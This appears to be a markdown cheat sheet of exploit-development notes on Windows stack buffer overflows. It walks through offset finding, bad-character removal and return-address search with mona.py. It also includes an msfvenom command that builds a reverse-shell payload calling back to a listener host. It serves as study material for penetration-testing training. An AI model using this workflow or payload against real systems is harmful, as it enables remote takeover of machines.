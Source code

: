 ### Buffer Overflow

1. Fuzz the application to determine the appoximate size of the input.
2. Generate an pattern offset using "pattern_create.rb".
3. Locate the offset using the value of the EIP at the time of crash using "pattern_offset.rb".
4. Verify the offset overwriting the EIP with "B"s.
5. Eliminate the bad characters.
6. Generate the ops code using "nasm_shell.rb".
7. Find the a return address. If Windows, use "!mona modules". If Linux, use "objdump" or "readelf".
7. In the results, look for anything that does not have the protections enabled and bad characters in the address.
8. Search for the opscode in the executable or dll using "!mona find -s "\xff\4a" -m smfc.dll".
9. Verify the opscode is at the address by looking in the debugger.
10. Set a breakpoint at address in the debugger.
11. Modify the PoC to use the return address.
12. Test the return address. Verify the EIP has the return address and then jumps to the payload.
13. Generate the payload. Be sure to remove the bad characters and the size fits in the payload space. Also, choose the correct architecture (x86 or x86_64).

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.22.31 LPORT=443 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x04\x05\xcf\xd0\xdb\xdc\xe1\xe2\xf2\xf3"
```

#### Guide

[Writing Exploits for Win32 Systems from Scratch](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2016/june/writing-exploits-for-win32-systems-from-scratch/)

[Exploit Dev 101: Jumping to Shellcode](https://www.abatchy.com/2017/05/jumping-to-shellcode.html)

[Exploit writing tutorial part 2 : Stack Based Overflows – jumping to shellcode](https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/)

#### Mona.py

Create a configuration folder

`!mona config -set workingfolder c:\logs\%p`

Create a pattern

`!mona pc 6000`

Find a pattern

```
!mona pattern_offset 0x7A46317A (where 0x7A46317A is the value of EIP at the crash time)
!mona findmsp
```

Generate a bytearray and find bad chars

```
!mona bytearray
!mona bytearray -cpb \x00\x0a
!mona compare -f c:\logs\slmail\bytearray.bin -a 0x01cea154
```

